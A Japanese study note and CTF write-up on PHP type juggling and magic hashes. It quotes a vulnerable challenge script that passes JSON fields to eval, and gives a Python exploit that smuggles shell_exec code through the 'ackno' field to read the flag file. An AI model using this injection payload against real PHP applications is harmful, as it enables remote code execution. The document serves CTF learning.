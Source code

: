 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [概要](#%E6%A6%82%E8%A6%81)
- [writeup](#writeup)
  - [](#)
  - [](#-1)
  - [](#-2)
  - [](#-3)
  - [](#-4)
- [メモ](#%E3%83%A1%E3%83%A2)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# 概要
文字列と数値を比較する場合は文字列は`0`の数値として解釈されるので以下はTrueとなる！  
```txt
php > var_dump("admin" == 0);
php shell code:1:
bool(true)
php >
```
magic hash(ハッシュ化したら`0e数字...`)は数値の`0`と解釈されるので以下はTrueとなる  
magic hashに使えるものは以下にいろんなハッシュ方式ごとにまとまってて神。  
https://github.com/spaze/hashes  
```txt
php > var_dump("0e66507019969427134894567494305185566735" == "0");
php shell code:1:
bool(true)
php > 
php > var_dump("0e66507019969427134894567494305185566735" == 0);
php shell code:1:
bool(true)
php > 
```
以下のように文字列でも先頭に1が書かれていて、そのあとに`-1`があれば文字列はこの比較の時だけ数字`1`と解釈されてTrueとなる。  
```txt
php > var_dump(0 == "1 aa" - 1);
PHP Notice:  A non well formed numeric value encountered in php shell code on line 1
PHP Stack trace:
PHP   1. {main}() php shell code:0
php shell code:1:
bool(true)
php > 
```

# writeup
##
https://born2scan.github.io/2020/10/05/Bo1lersCTF.html#next-gen-networking  
- **entrypoint**  
以下のソースが与えられる。  
```php
<?php
    function get_data() {
        if(!isset($_POST["packet"])){
            return "<p>Error: packet not found</p>";
        }

        $raw_packet = $_POST["packet"];
        $packet = json_decode($raw_packet);
        if($packet == null) {
            return "<p>Error: decoding packet</p>";
        }

        if($packet->version != 6.5) {
            return "<p>Error: wrong packet version</p>";
        }

        $calculated_ihl = strlen($packet->version) + strlen(strval($packet->len)) + strlen(strval($packet->ttl)) + strlen(strval($packet->seqno)) + strlen(strval($packet->ackno)) + strlen($packet->algo) + 64;
        $calculated_ihl = $calculated_ihl + strlen(strval($calculated_ihl));
        if($packet->ihl != $calculated_ihl or $packet->ihl > 170) {
            return "<p>Error: wrong header size</p>";
        }

        if($packet->len != strlen($raw_packet)) {
            return "<p>Error: mismatched packet size</p>";
        }

        if($packet->ttl - 1 != 0) {
            return "<p>Error: invalid ttl</p>";
        }

        if($packet->ackno != $_COOKIE["seqno"] + 1) {
            return "<p>Error: out of order packet</p>";
        }

        if($packet->algo != "sha256"){
            return "<p>Error: unsupported algorithm</p>";
        }

        $checksum_str = "\$checksum = hash(\"$packet->algo\", strval($packet->ihl + $packet->len + $packet->ttl + $packet->seqno + $packet->ackno));";
        eval($checksum_str);

        if($packet->checksum != $checksum) {
            return "<p>Error: checksums don't match</p>";
        }

        $file_name_hash = hash("md5", microtime());
        $file_name = "sent/".$file_name_hash.".packet";
        $packet_file = fopen($file_name, "w") or die("Unable to open packet file");
        fwrite($packet_file, $packet->data);
        fclose($packet_file);

        return "<h1>Packet data written</h1><div><a href=\"".$file_name."\">".$file_name_hash.".packet</a></div>";
    }
?>

<!DOCTYPE html>
<html>
    <head>
        <title>Send Packet.</title>
        <link rel="stylesheet" href="/style.css"/>
        <link rel="stylesheet" href="/tron.css"/>
    </head>
    <body>
        <div id="main-wrapper">
            <div class="content-page">
                <?php echo get_data(); ?>
            </div>
        </div>
    </body>
</html>
```
以下のevalが使われている部分が脆弱っぽそう。上で`!=`という弱い比較をしているのでType Jugglingできるとわかる。  
```php
        $checksum_str = "\$checksum = hash(\"$packet->algo\", strval($packet->ihl + $packet->len + $packet->ttl + $packet->seqno + $packet->ackno));";
        eval($checksum_str);
```
例えば`$packet->ttl`の`if($packet->ttl - 1 != 0) {`の部分で以下のように再現すると任意コードを実行できる。  
https://sandbox.onlinephpfunctions.com/  
でhash関数が使える5.1.2以降かつ`$ttl-1`の部分でWarningが出ないちょっと低めのバージョンで実行する。  
```php
$ttl = "1 ));echo 'aaaaaaaaa';//";  // 先頭に1と書いてそのあとに数字以外の文字列を書いておけば1と変換される
$algo = "sha256";

if($ttl - 1 != 0) echo "error!"."\n";

$checksum_str = "\$checksum = hash(\"$algo\", strval($ttl));";
echo $checksum_str."\n";

eval($checksum_str);
echo $checksum;

// 出力
// $checksum = hash("sha256", strval(1 ));echo 'aaaaaaaaa';//));
// aaaaaaaaa6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b
```
writeupでは以下のようにて`if($packet->ackno != $_COOKIE["seqno"] + 1) {`の部分にInjectしていた。  
```php
$ackno = "1abc";
if ($ackno == "0abc" + 1) {
    echo "PWNED";
}

$packet->ackno = "1)); /*EXPLOIT_CODE*/ echo((1"
```
- **payload**  
```python
import json

import requests

headers = {
    'Connection': 'keep-alive',
    'Accept': '*/*',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
}

packet = {
    'version' : 6.5,
    'len' : 258,
    'ttl' : 1,
    'seqno' : 1,
    'ackno' : '1));$packet->data = shell_exec("cat ./sent/flag.packet.php");echo((1',
    'algo' : 'sha256',
    'ihl' : 149,
    'checksum' : '612111a352a571cbed3927ec6f74948849bcc9fe8489bf4f0d6235afdc0a4ad7',
    'data' : 'wow'
}

data = {
  'packet': json.dumps(packet),
}

response = requests.post('http://chal.ctf.b01lers.com:3002/packets/send.php', headers=headers, data=data, cookies={'seqno' : '0as'}, verify=False)
response = response.text
print(response)
```
## 
- **entrypoint**  
- **payload**  
##
- **entrypoint**  
- **payload**  
##
- **entrypoint**  
- **payload**  
##
- **entrypoint**  
- **payload**  

# メモ
https://www.hamayanhamayan.com/entry/2020/08/09/193357  
https://medium.com/@Q2hpY2tlblB3bnk/php-type-juggling-c34a10630b10  
https://github.com/spaze/hashes  
https://www.whitehatsec.com/blog/magic-hashes/  

